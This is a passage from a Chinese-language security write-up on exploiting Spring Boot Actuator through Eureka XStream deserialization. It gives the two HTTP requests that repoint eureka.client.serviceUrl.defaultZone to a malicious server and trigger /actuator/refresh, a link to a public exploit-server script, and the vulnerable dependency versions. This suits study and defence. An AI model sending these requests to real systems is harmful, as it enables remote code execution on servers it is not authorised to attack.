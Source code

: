 ![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUD2MhB1K87Nxa8zNXglfRDWvhydJV6N22LcibTwXr7kCv4bMqLyibOCMQw/640?wx_fmt=png&from=appmsg "")  
  
  
2，Xstream反序列化(refresh)  
  
另外一种RCE是eureka xstream deserialization RCE，需要依赖。  
```
<dependency>
    <groupId>org.springframework.cloud</groupId>
    <artifactId>spring-cloud-starter-netflix-eureka-client</artifactId>
</dependency>
```  
  
然后  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 81

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://127.0.0.1:8088/"}
```  
  
```
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  
恶意服务端  
  
https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py  
  
其原理是远程加载xml造成Xstream反序列化，因此必须xstream<=1.4.17，springboot2.x版本过高xstream版本将不满足利用条件。  
  
除此之外，eureka-client自己实现了XmlXStream，在1.8.7版本添加了白名单类。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDXQWGD1VpNCEz0EFibwWvX4r5ZfvYcLbQZOcO2ZFZsCZmgiaGM3kCGYvQ/640?wx_fmt=png&from=appmsg "")  
  
所以这个RCE办法基本也只限于spingboot1.x版本，spingboot2.x版本必须手动降级两个组件才能触发此漏洞。  
```
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.10</version>
</dependency>
<dependency>
    <groupId>com.netflix.eureka</groupId>
    <artifactId>eureka-client</artifactId>
    <version>1.8.6</version>
</dependency>
```  
  